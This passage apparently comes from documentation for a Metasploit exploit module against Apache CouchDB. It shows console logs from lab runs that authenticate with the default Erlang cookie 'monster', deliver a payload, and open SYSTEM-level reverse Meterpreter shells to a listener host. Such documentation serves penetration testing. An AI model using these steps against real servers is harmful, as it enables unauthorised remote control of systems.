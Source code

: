 ```
[*] 172.16.199.137:4369 - Command Stager progress -  99.41% done (306900/308720 bytes)
[*] 172.16.199.137:4369 - sending payload...
[*] Meterpreter session 5 opened (172.16.199.1:4444 -> 172.16.199.137:49749) at 2022-10-14 17:09:31 -0400
[*] 172.16.199.137:4369 - Command Stager progress - 100.00% done (308720/308720 bytes)

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-8ATHH6O
OS              : Windows 10 (10.0 Build 19042).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### PowerShell Stager, Windows 10, Apache CouchDB 2.3.1
```
msf exploit(multi/http/apache_couchdb_erlang_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] 172.16.199.137:4369 - Running automatic check ("set AutoCheck false" to disable)
[*] 172.16.199.137:4369 - Attempting to connect to the Erlang Port Mapper Daemon (EDPM) socket at: 172.16.199.137:4369...
[*] 172.16.199.137:4369 - Successfully found EDPM socket
[*] 172.16.199.137:4369 - Attempting to connect to the Erlang Server with an Erlang Server Cookie value of "monster" (default in vulnerable instances of Apache CouchDB)...
[*] 172.16.199.137:4369 - Connection successful
[*] 172.16.199.137:4369 - Erlang challenge and response completed successfully
[+] 172.16.199.137:4369 - The target is vulnerable. Successfully connected to the Erlang Server with cookie: "monster"
[*] 172.16.199.137:4369 - sending payload...
[*] 172.16.199.137:4369 - Command Stager progress -  20.94% done (2046/9770 bytes)
[*] 172.16.199.137:4369 - sending payload...
[*] 172.16.199.137:4369 - Command Stager progress -  41.88% done (4092/9770 bytes)
[*] 172.16.199.137:4369 - sending payload...
[*] 172.16.199.137:4369 - Command Stager progress -  62.82% done (6138/9770 bytes)
[*] 172.16.199.137:4369 - sending payload...
[*] 172.16.199.137:4369 - Command Stager progress -  83.77% done (8184/9770 bytes)
[*] 172.16.199.137:4369 - sending payload...
[*] Sending stage (222278 bytes) to 172.16.199.137
[*] Meterpreter session 12 opened (172.16.199.1:4444 -> 172.16.199.137:49773) at 2022-10-17 18:45:56 -0400
[*] 172.16.199.137:4369 - Command Stager progress - 100.00% done (9770/9770 bytes)

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-8ATHH6O
OS              : Windows 10 (10.0 Build 19042).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```
